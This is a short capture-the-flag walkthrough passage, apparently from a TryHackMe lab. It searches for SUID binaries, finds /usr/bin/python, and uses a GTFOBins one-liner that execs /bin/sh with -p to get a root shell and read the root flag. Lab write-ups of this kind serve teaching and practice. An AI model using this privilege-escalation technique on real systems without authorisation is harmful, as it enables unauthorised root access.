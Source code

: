 ```sh
$ find / -user root -perm /4000
find: '/home/rootme/.cache': Permission denied
find: '/home/rootme/.gnupg': Permission denied
find: '/home/test/.local/share': Permission denied
find: '/sys/kernel/debug': Permission denied
find: '/sys/fs/pstore': Permission denied
find: '/sys/fs/fuse/connections/49': Permission denied
find: '/run/lxcfs': Permission denied
find: '/run/sudo': Permission denied
find: '/run/cryptsetup': Permission denied
find: '/run/lvm': Permission denied
find: '/run/systemd/unit-root': Permission denied
```
- There are many
- The wired file is `/usr/bin/python` 
- In the `https://gtfobins.github.io/gtfobins/python/#suid` we found an exploit
- Now we will run them to the terminal
```python
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
swap.img
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd root	 
ls
root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}

```
